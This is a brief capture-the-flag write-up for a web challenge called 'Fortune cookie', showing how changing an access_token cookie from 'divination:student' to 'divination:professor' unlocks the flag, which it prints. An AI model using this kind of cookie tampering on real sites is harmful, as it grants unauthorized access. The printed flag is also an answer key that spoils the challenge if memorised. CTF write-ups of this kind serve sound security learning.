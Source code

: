![Fortune cookie (50 pts)](./screenshots/Fortune_cookie.png)
---
## CHALLENGE INFO
- __CHALLENGE LINK__: https://fortune.tghack.no/
- __ASSUMED OBJECTIVE__: Alter the site's __*cookies*__ to get the flag
---

## 1. Check cookies 

- From HTTP Response Headers:
  ```
  ...
  Set-Cookie: access_token=divination:student
  ...
  ```

---

## 2. Change the value of __access_token__

- HTTP Request Headers:
  ```
  ...
  Cookie: access_token=divination:professor
  ...
  ```

- Changing the value to __divination:professor__ returns:
  ```
  OMG! You're so fortunate! Take this flag: TG19{what_a_fortune_my_lucky_one}
  ```

---

## FLAG : __TG19{what_a_fortune_my_lucky_one}__